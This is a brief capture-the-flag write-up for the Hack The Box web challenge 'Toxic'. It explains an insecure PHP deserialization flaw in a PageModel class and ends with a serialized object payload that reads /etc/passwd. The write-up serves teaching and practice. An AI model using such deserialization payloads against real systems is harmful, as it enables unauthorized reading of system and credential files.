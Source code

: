 ```yaml
---
title: "Toxic - HackTheBox"
description: "https://app.hackthebox.com/challenges/Toxic"
summary: "Hack The Box Web Challenge Toxic"
date: 2024-01-24
draft: false
author: "Aftab Sama" # ["Me", "You"] # multiple authors
tags: ["Web", "HackTheBox", "Easy", "CTF"]
canonicalURL: ""
showToc: true
TocOpen: false
TocSide: 'right'  # or 'left'
# weight: 1
# aliases: ["/first"]
hidemeta: false
comments: false
disableHLJS: true # to disable highlightjs
disableShare: true
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
# UseHugoToc: true
---
```


------------------------

### Challenge Description

Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸

### Insecure Deserialization

In the given source code we can spot that it is vulnerable to deserialization.

<img width="293" alt="image" src="/images/md/5fbcaee1-b10f-4765-93ef-7a4be1f4330b.png">

`PageModel` have magic method `__destruct()` to exploite Deserialization.

<img width="206" alt="image" src="/images/md/1086d508-0033-4c6b-b6d4-3ec831a0bf87.png">


payload= 
```
O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}
```
